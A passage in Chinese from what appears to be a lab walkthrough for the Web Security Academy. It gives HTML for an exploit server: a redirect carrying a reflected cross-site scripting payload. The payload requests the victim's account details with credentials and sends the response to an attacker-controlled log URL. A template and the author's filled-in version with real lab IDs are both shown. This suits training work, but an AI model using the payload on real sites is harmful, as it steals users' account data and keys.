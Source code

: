 <img src=".\图片\e827db6a641348ab9a448df6d0cfe9aa.png" alt="e827db6a641348ab9a448df6d0cfe9aa" style="zoom:80%;" />

在浏览器中，转到**漏洞利用服务器**并输入以下HTML，将YOUR-LAB-ID替换为您的唯一实验室URL，将YOUR-EXPLOIT-SERVER-ID替换为您的漏洞利用服务器ID：

```
<script>
    document.location="http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
 
我的是：
<script>
    document.location="http://stock.0ab300ad04e5a886807d0343005000a7.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0ab300ad04e5a886807d0343005000a7.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a460085044aa83a80fb020001cd0058.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```
